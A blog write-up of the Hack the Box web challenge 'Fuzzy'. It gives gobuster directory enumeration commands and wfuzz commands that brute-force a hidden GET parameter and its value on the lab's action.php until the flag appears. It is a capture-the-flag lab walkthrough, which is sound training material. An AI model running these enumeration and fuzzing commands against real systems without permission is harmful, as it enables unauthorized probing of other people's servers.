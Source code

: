 +++
title = "Hack the Box challenge: Fuzzy [Web]"
date = 2023-01-10
description = "Hack the Box challenge: Fuzzy [Web]"
tags = [
    "Hack the Box",
    "Challenge"
]
categories = [
    "Hack the Box",
    "Challenge"
]
series = ["Hack the Box"]
+++

Hack the Box challenge: Fuzzy [Web]
<!--more-->

# Fuzzy [Web]

## Enumeration

We enumerate first using `gobuster`:

```
# gobuster dir -u http://docker.hackthebox.eu:32079 -w /usr/share/wordlists/dirb/big.txt -t 30
```

or

```
# gobuster -u http://docker.hackthebox.eu:32079/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm`
```

We find `/api`, let’s use `gobuster` again:

```
# gobuster -u http://docker.hackthebox.eu:32079/api/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm,js,md`
```

We found the `action.php`, if we visit `http://docker.hackthebox.eu:32079/api/action.php` we get `Error: Parameter not set`. It’s telling us that our GET request parameters aren’t the goods ones.

## Fuzzing

We use `wfuzz` to brute force the GET parameter:

```
# wfuzz --hh=24 -c -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:32079/api/action.php?FUZZ=test
```

- hh (filter the length of characters in source code)
- c (Output with colors)
- w (Wordlist)
- FUZZ (FUZZ keyword will be replaced by the word from the wordlist)

And get a valid parameters with reset, giving us `http://docker.hackthebox.eu:32079/api/action.php?reset=`

We now need to find the right value for the reset parameter:

```
# wfuzz --hh=27 -c -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:32079/api/action.php?reset=FUZZ
```

and we get `20` as valid parameter. visit `http://docker.hackthebox.eu:32079/api/action.php?reset=20` in order to get the flag `HTB{FLAG}`
